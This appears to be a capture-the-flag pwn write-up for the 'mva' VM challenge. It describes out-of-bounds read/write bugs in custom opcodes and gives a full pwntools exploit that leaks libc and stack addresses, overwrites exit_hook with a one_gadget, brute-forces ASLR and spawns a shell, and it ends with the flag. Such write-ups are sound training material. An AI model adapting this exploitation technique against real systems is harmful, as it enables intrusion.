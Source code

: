 # Pwn | mva (10 solves)

## Description

Just a simple program

[Attachments](./to_player/)

## Solution

普通VM Pwn，逆向发现
- mul指令没有对第二个操作数进行校验存在oob read
- mv指令没有对第二个操作数进行校验存在oob write

一种利用思路
- oob read溢出读libc和栈的地址
- oob write写sp计数器
- 最后 push指令改exit_hook到one_gadget

由于ASLR存在，VM又是16bit字长的，需要爆破。

sample exp

```python
#!/usr/bin/python3

from pwn import *
context.arch='amd64'

def pack(op:int, p1:int = 0, p2:int = 0, p3:int = 0) -> bytes:
    return  (op&0xff).to_bytes(1,'little') + \
            (p1&0xff).to_bytes(1,'little') + \
            (p2&0xff).to_bytes(1,'little') + \
            (p3&0xff).to_bytes(1,'little')

def ldr(val):
    return pack(0x01, 0, val >> 8, val)

def add(p1, p2, p3):
    return pack(0x02, p1, p2, p3)

def sub(p1, p2, p3):
    return pack(0x03, p1, p2, p3)

def shr(p1, p2):
    return pack(0x06, p1, p2)

def xor(p1, p2, p3):
    return pack(0x07, p1, p2, p3)

def push():
    return pack(0x09)

def pop(p1):
    return pack(0x0a, p1)

def mul(p1, p2, p3):
    return pack(0x0D, p1, p2, p3)

def mv(p1, p2):
    return pack(0x0E, p1, p2)

def sh():
    return pack(0x0F)

puts_offset = 0x845ca
puts_leak = (0x38 + 0x268 - 0x224) >> 1
onegadgetlst = [0xe3b2e, 0xe3b31, 0xe3b34]
onegadget = onegadgetlst[0]
toadd = onegadget - puts_offset
stack_leak = (0x268 - 0x224) >> 1
stack_pointer_leak = (0x238 - 0x224) >> 1

tosub = 0x1a799e + 0x308
# tosub = 0x1a399e + 0x308    # debug aslr
tosub = tosub - 0x3000  # no aslr : player environment
tosub = tosub - 0x4000  # aslr : player environment

# - 0x308 + stack_leak - puts + 0x1a799e
pay  = ldr(0x1)
pay += mv(0,1)
pay += ldr(tosub&0xffff)
pay += mv(0,3)
pay += mul(4,-puts_leak,1)
pay += mul(5,-stack_leak,1)
pay += sub(0,5,4)
pay += sub(0,0,3)
pay += shr(0,1)
pay += push()

pay += ldr((tosub>>16)&0xffff)
pay += mv(0,3)
pay += mul(4,-puts_leak+1,1)
pay += mul(5,-stack_leak+1,1)
pay += sub(0,5,4)
pay += sub(0,0,3)
pay += shr(0,1)
pay += push()

# onegadget
pay += mul(3,-puts_leak,1)
pay += mul(4,-puts_leak+1,1)
pay += ldr(toadd&0xffff)
pay += add(0,3,0)
pay += push()
pay += ldr(((toadd>>16)&0xffff)+1)
pay += add(0,4,0)
pay += push()
pay += mul(0,-puts_leak+2,1)
pay += push()
pay += pop(3)
pay += pop(4)
pay += pop(5)

pay += pop(1)
pay += pop(2)
pay += ldr(0xffff)
pay += xor(2,0,2)
pay += ldr(1)
pay += add(2,0,2)
pay += mv(2,-stack_pointer_leak)
pay += ldr(0xffff)
pay += xor(1,0,1)
pay += mv(1,-stack_pointer_leak+1)
pay += mv(0,-stack_pointer_leak+2)
pay += mv(0,-stack_pointer_leak+3)
pay += mv(5,0)
pay += push()
pay += mv(4,0)
pay += push()
pay += mv(3,0)
pay += push()
pay += ldr(0)
pay += push()




pay += sh()
print(hex(len(pay)))
assert len(pay) <= 0x100
pay = pay.ljust(0x100,b'\0')


# chance of this exp : about 1230 - 10125 times with 1 flag
# I admit this is an awful exp
while True:
    p=remote('127.0.0.1',9999)
    p.sendafter('\n',pay)
    try:
        p.recvuntil('starting ...\n')
        p.recvline()
        p.recvuntil('down ...\n')
        p.sendline('cat flag')
        res = p.recvline()
        print('[+] flag:', res)
        p.interactive()
        break
    except:
        p.close()
        pass
```

## Flag

`HFCTF{M4st3r_0f_vmmv_Mavm44mV4av4m_b03mtxEe4i45fdsdkz9DPWNc02d}`

## Side Note

- VM改编自[Armax/AVM](https://github.com/Armax/AVM)，Great Thanks to original author
- docker调试的时候偏移非常不稳定，docker-compose中加个调试启动参数也会使得libc段和ld段之间的偏移发生改变
- 因为觉得偏移可能是个问题，所以给出dockerfile